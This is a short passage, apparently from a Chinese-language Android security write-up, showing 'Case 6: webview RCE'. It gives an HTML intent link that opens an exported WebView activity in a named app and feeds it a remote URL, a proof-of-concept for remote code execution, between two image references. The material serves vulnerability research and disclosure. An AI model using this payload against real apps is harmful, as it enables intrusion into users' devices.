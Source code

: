 ![](../pictures/androidac9.jpg)  

### 案例6:webview RCE
```
<a href="intent:#Intent;component=com.gift.android/.activity.WebViewIndexActivity;S.url=http://drops.wooyun.org/webview.html;S.title=WebView;end">
</a><br>
```
![](../pictures/androidac10.jpg)